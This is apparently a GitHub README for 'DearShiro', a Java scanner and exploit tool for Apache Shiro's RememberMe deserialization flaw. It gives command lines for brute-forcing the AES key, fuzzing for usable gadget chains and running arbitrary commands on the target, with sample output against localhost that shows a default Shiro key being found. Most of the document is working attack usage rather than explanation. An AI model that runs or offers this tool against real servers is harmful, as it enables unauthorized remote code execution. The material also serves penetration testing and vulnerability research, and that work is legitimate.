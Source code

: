 # DearShiro

## Start

**一个不万能的Shiro扫描工具**

人类低质量代码，就当练个手。

目前已完成:
- Key的探测
- 可用Gadget的探测
- 利用Gadget执行命令


后续todo:
- 图形化？
- 修复某些未知BUG


由于Shiro在反序列化的时候无法加载除Java本身自带的数组，所以可利用的Gadget有限。

目前可用Gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2
- JRMPClient（需要在VPS上首先开启一个JRMPServer）

## Usage

```python
java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]

# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}

# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}

# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

初步测试：

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########

```

